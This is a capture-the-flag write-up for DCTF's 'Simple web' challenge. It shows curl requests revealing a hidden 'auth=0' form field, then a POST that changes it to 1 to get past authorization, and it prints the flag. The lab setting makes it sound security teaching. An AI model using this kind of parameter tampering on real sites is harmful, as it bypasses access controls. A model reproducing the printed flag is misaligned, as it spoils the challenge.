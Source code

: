 # Simple web(Web) - Writeup

## description

````
Time to warm up! \

http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080
````


## answer

When you access the specified URL, a screen requesting a flag will be displayed.

````
┌──(root💀kali)-[/home/kali]
└─# curl -v http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080/
*   Trying 20.61.15.90:8080...
* Connected to dctf1-chall-simple-web.westeurope.azurecontainer.io (20.61.15.90) port 8080 (#0)
> GET / HTTP/1.1
> Host: dctf1-chall-simple-web.westeurope.azurecontainer.io:8080
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Content-Length: 611
< Content-Type: text/html; charset=utf-8
< Date: Sat, 15 May 2021 03:07:03 GMT
< Server: waitress
< 

<!DOCTYPE html>
<html>
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <style>
    img {
    display: block;
    margin-left: auto;
    margin-right: auto;
    }
    fieldset{
    border: 1px solid;
    width: 400px;
    margin:auto;
    }
    </style>
</head>
<body>
    <form action='flag' method='post'>
        <fieldset>
            <input type="checkbox" name="flag" value="1">
            I want flag!<br>
            <input hidden name="auth" value="0">
            <input type='submit' name='Submit' value='Submit' />
        </fieldset>
    </form>
</body>
* Connection #0 to host dctf1-chall-simple-web.westeurope.azurecontainer.io left intact
</html> 
````

The auth parameter is passed in the hidden attribute with a value of 0 when the POST requesting the flag is processed.

```
<input hidden name="auth" value="0">
```


The normal process is as follows.

```
┌──(root💀kali)-[/home/kali/Desktop]
└─# curl -X POST -d "flag=1&auth=0&Submit=Submit" http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080/flag
Not authorized                                                                                                                               
```

Rewrite the auth parameter to 1, and the flag will be displayed.

```
┌──(root💀kali)-[/home/kali/Desktop]
└─# curl -X POST -d "flag=1&auth=1&Submit=Submit" http://dctf1-chall-simple-web.westeurope.azurecontainer.io:8080/flag
There you go: dctf{w3b_c4n_b3_fun_r1ght?}                                                                                                                               
```


###### dctf{w3b_c4n_b3_fun_r1ght?} 
